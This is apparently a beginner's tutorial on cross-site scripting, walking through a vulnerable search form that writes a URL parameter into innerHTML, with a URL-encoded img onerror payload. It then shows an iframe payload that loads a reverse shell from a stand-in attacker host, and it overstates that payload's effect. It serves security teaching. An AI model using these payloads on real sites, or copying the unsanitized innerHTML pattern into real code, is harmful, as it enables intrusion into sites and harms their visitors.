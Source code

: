 # Cross Site Scripting (XSS)

##Video


## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

### Example

Consider the following block of HTML code:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist">
...
````
When this site renders in the browser, what happens? The site looks like this:

![xss1](../img/xss1.png)

If you put a reference to an image that does not exist right into the web page, a broken image icon will show up in its place. This is expected behavior.

What about this code block? Similar, but notice a small difference:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist" onerror="alert('hi!')"> >
...
````
Now, when the website is rendered, the additional `onerror` tag tells the website to trigger an alert box if there is some error on the page. And indeed, there is an error: the page is trying to load an image that does not exist!

When the page renders, it looks like this:

![xss2](../img/xss2.png)

This time, we get an error message alert. So far so good, right? We, as the page author, are just using the common HTML tags to add different things to the website.

Well, what happens when you allow the user to provide input in the form of a...well, form?

Consider this  HTML snippet of a form:
````html
...
 <form action="" method="GET">
    <input type="text" name="q">
    <input type="submit" value="Search">
</form>
...
````
````javascript
document.addEventListener('DOMContentLoaded', function() {
    var q = getQueryParameter('q');
    if (q) {
        search(q, function(error, results) {
        showQueryAndResults(q, results);
    });
  }
}
...

function showQueryAndResults(q, results) {
    var resultsEl = document.querySelector('#results');
    var html = '';
    html += '<p>Your search query:</p>';
    html += '<pre>' + q + '</pre>';
    html += '<ul>';
    for (var index = 0; index < results.length; index++) {
        html += '<li>' + results[index] + '</li>';
    }
    html += '</ul>';
    resultsEl.innerHTML = html;
  }
...
````
Notice the addition of the `<input type="text" name="q">` tag. What exactly is this doing?

Well, per the form's tag parameters, it will make a GET request (in this case, to nothing as it's just an example) and will add whatever is put in the search bar to the "q=" parameter. Since this is a <code>GET</code> request, this parameter is viewable in the URL of the page:

![xss3](../img/xss3.png)

The Javascript function that handles this form listens for a value that is added to the "q=" parameter and adds this value straight into the HTML of the page itself. Yikes!

Remember the broken image tag from before? How about we insert it into the page as the user, **not as the author** via XSS?

Through the URL, by using the insecure GET parameter of "q=" on this page, we will inject a **URL encoded HTML tag** to include the same broken image tag as before, with that exact same error. And, if the syntax is correct, the user will be able to include HTML in the page as if they were the author.

We will take the same syntax from before and URL encode it with a tool like this one: https://www.urlencoder.org/

`<img src="does-not-exist" onerror="alert('hi!')">`

becomes

`%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E`

...and we will inject this into the "q=" parameter in the website's URL:

![xss4](../img/xss4.png)

Then, we hit enter!

![xss5](../img/xss5.png)

The URL will automatically render the URL encoded characters when the form is submitted. What we're left with is an HTML tag that is dynamically added to the page by way of an evil user's actions.

## The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


## The Damage
XSS is not just a matter of popping up an alert on a website. An attacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of a particularly nasty Stored XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.